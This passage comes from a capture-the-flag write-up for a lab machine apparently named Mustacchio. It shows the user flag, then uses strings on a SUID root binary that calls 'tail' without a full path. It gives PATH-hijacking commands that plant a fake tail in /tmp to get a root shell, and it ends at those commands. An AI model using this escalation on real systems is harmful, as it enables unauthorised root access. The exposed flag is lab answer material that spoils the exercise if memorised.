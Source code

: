 ~~~
user.txt
barry@mustacchio:~$ cat user.txt 
62d77a4d5f97d47c5aa38b3b2651b831
~~~

User flag: `62d77a4d5f97d47c5aa38b3b2651b831`

## Privilege escalation​

Now we need to escalate​ our privilege. I started enumerating the machine manually and found a binary in the other user's home directory (`/home/joe`) named `live_log` which is owned by root:

~~~
barry@mustacchio:/home/joe$ ls -la live_log 
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log
~~~

I ran it and it shows the last few lines of the log file. I ran `strings` on it to see if I can find anything useful in the strings and take a look at this:

~~~
barry@mustacchio:/home/joe$ strings live_log 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
printf
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log      <--------------
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c
[REDACTED]
~~~

It is using `tail` command which shows the last ten lines of a file and it is running it on nginx's log file.

### Exploit

Since there is no PATH set in the strings, we can create a file named `tail` that spawns a bash console and change the path to the new file. The program has SUID bit set which means when it is run, it is run as `root` and the result for us, is a root shell. The steps are as follows:

~~~
$ cd /tmp
$ echo "/bin/bash" > tail
$ chmod +700 tail
$ export PATH=/tmp:$PATH
~~~
